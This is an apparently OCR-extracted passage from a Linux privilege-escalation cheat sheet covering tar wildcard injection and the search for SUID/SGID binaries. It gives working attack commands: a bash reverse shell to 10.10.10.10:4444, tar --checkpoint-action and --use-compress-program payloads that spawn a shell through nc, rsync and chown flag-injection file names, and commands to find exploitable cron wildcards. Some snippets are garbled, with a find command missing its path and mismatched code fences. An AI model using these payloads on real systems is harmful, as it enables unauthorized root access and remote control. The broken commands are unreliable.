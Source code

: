 **Method 2: Using different tar flag injection**

```bash
# Simple reverse shell
echo 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' > shell.sh
chmod +x shell.sh
touch "/home/user/--checkpoint-action=exec=sh shell.sh"
touch /home/user/--checkpoint=1
```

**Method 3: Find wildcard usage in scripts**

```bash
# Find all scripts using wildcards
grep -r "\*" /etc/cron* /var/spool/cron/ /etc/anacrontab 2>/dev/null | grep -v ":#"

# Check if you have write access to the directory where wildcard is used
find $(grep -r "\*" /etc/cron* 2>/dev/null | grep -v ":#" | awk -F: '{print $1}' | xargs dirname 2>/dev/null | sort -u) -writable 2>/dev/null
```

**Other Common Command Flags for Wildcard Injection**

```bash
# For tar
touch /home/user/--use-compress-program='nc 10.10.10.10 4444 -e /bin/bash'

# For rsync 
touch /home/user/-e sh\ shell.sh

# For chown
touch /home/user/--reference=shell.sh
```

##  SUID/SGID Binary Exploitation

### Understanding SUID/SGID

SUID (Set User ID) and SGID (Set Group ID) are permission bits that allow users to execute a file with the permissions of the file owner or group respectively. When these special permissions are set on files owned by root, they can be leveraged for privilege escalation.

### Finding SUID/SGID Binaries

````bash
# Find all SUID binaries (user execution rights)
find / -type f -perm -u=s 2>/dev/null

# Find all SGID binaries (group execution rights)
find / -type f -perm -g=s 2>/dev/null

# Find both SUID and SGID binaries
find / -type f -a \( -perm -u+s -o -perm -g+s \) 2>/dev/null

# Find specific SUID files owned by root
 -type f -perm -4000 -user root 2>/dev/null | grep -v -E '^/(bin|sbin|usr/bin|usr/lib|usr/sbin)'
``` -user root 2>/dev/null

# Use suid3num.py for automatic detection and exploitation suggestions
python3 suid3num.py

# Find all SUID/SGID binaries and sort by date (recently installed might be interesting)
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2>/dev/null | sort -k6,8

# Filter out "standard" SUID binaries that are commonly installed
````